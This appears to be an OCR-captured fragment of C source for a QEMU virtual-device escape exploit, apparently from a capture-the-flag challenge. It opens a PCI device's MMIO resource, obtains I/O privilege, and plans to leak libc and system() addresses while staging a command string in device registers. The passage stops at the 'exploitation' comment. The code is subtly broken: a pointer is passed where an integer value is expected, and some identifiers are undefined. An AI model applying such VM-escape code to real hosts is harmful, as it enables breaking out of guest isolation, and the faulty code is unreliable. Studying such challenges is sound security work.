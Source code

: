 ```c

void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

void pmio_write(uint32_t port, uint32_t val)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}

int main(int argc, char **argv, char **envp)
{
    uint64_t    mmio_addr;
    uint32_t    pmio_port = 0xc050;
    int         mmio_fd;
    uint32_t    srand_addr_low, srand_addr_high;
    uint64_t    srand_addr;
    uint64_t    libc_addr;
    uint64_t    system_addr;

    /*
     * initialization
     */
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }
    
    if (iopl(3) < 0) {
        errExit("failed to change i/o privilege! no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    /*
     * regs[3] is not writable, because for addr 3 the rand_r() will be called
     * so we fill some useless string there
     */
    for (int i = 0; i < 4; i++)
        mmio_write((uint32_t*)(mmio_addr + ((2 + i) << 2)), (uint32_t*)"aaaa");

    for (int i = 0; i < 10; i++)
        mmio_write((uint32_t*)(mmio_addr + ((6 + i) << 2)), ((uint32_t*)calc_str)[i]);

    /*
     * exploitation
     */
```